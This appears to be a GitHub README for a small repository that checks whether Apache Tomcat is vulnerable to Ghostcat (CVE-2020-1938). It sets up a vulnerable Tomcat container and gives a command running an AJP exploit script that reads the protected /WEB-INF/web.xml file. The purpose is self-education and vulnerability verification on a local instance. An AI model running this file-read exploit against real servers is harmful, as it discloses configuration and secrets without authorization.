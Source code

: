 # Ghostcat verification (CVE-2020-1938)

## Summary

A new exploit called Ghostcat has been found [CVE-2020-1938], see the articles on [snyk] and [tenable] for details and analysis of the exploit itself.

In my case, I wanted to verify which services are exploitable and if so how does it manifest itself.

## Prerequsites

- docker
- python
- git

## Demonstration

```bash
git clone git@github.com:shaunmclernon/ghostcat-verification.git
cd ghostcat-verification/AJPy
docker run -d -p 8080:8080 -p 8009:8009 tomcat:8.5.32
python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 127.0.0.1
```

If it returns the web.xml then this version of Tomcat is vulnerable to the exploit.

## Disclaimer

I am not a security professional and this repo was built for my learning purposes, it is not intended to be used for malicious purposes.

[CVE-2020-1938]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938
[snyk]: https://snyk.io/blog/ghostcat-breach-affects-all-tomcat-versions/
[tenable]: https://www.tenable.com/blog/cve-2020-1938-ghostcat-apache-tomcat-ajp-file-readinclusion-vulnerability-cnvd-2020-10487